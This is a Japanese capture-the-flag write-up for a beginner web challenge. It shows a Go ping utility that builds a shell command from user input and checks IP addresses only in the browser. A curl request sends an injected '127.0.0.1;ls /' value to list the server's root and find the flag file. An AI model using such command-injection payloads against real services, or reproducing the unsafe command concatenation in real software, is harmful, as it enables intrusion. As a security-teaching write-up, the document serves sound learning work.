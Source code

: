 ## web

### Web Util

IPアドレスを入力すると、そのアドレスに対してpingを投げるプログラムとなっている。サーバが実際に実行するコマンドは以下の通りである。

```go
commnd := "ping -c 1 -W 1 " + param.Address + " 1>&2"
```

`param.Address`は好きに決定できるので、例えば`param.Address`に`127.0.0.1;ls`と入力すれば`commnd := "ping -c 1 -W 1 127.0.0.1;ls 1>&2"`となってOSコマンドインジェクションが成立する。しかし、実際に`127.0.0.1;ls`を入力すると`Invalid IP address`と出力されてしまいます。

![WebUtil-1](WebUtil-1.png)

しかし、フロントエンドのソースコードを以下のような記述があります。

```js
if (/^(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$/.test(address))
```

つまり、IPアドレスのvalidationはフロントエンドで実行されていました。よってえ、curlで直接実行してみます。

`curl -X POST https://util.quals.beginners.seccon.jp/util/ping -H 'Content-Type: application/json' --data-raw '{"address":"127.0.0.1;ls /"}'`

出力は以下の通りである。。

```json
{
   "result":"PING 127.0.0.1 (127.0.0.1): 56 data bytes\n64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.130 ms\n\n--- 127.0.0.1 ping statistics ---\n1 packets transmitted, 1 packets received, 0% packet loss\nround-trip min/avg/max = 0.130/0.130/0.130 ms\napp\nbin\ndev\netc\nflag_A74FIBkN9sELAjOc.txt\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n"
}
```

`flag_A74FIBkN9sELAjOc.txt`というファイルがあった。catで中身を見て見る。
